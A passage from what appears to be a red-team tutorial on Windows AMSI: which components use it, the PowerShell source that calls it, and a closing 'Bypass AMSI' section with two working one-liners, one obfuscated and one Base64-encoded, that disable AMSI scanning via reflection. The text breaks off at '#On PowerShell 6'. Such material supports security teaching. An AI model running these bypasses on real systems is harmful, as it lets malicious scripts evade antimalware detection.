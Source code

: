 AMSI is fully integrated into the following Windows components.  

-   User Account Control, or UAC
-   PowerShell
-   Windows Script Host (wscript and cscript)
-   JavaScript and VBScript
-   Office VBA macros

AMSI is instrumented in both System.Management.Automation.dll and within the CLR itself. When inside the CLR, it is assumed that Defender is already being instrumented; this means AMSI will only be called when loaded from memory.  

We can look at what PowerShell security features physically look like and are written using InsecurePowerShell, [https://github.com/PowerShell/PowerShell/compare/master...cobbr:master](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master) maintained by Cobbr. InsecurePowerShell is a GitHub repository of PowerShell with security features removed; this means we can look through the compared commits and identify any security features. AMSI is only instrumented in twelve lines of code under 
```powershell
src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs
```

Find the C# code used to instrument AMSI below.  
```csharp
var scriptExtent = scriptBlockAst.Extent;  
if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)  
{  
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);  
  throw new ParseException(new[] { parseError });  
}  
  
if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)  
{
  HasSuspiciousContent = true;  
}
```

Third-parties can also instrument AMSI in their products using the methods outlined below.  

-   AMSI Win32 API, [https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions)
-   AMSI COM Interface, [https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream)

## Bypass AMSI
Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell.
There are a large number of bypasses for AMSI available, below are a list of few AMSI bypasses.

```powershell
# AMSI obfuscation
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#On PowerShell 6
```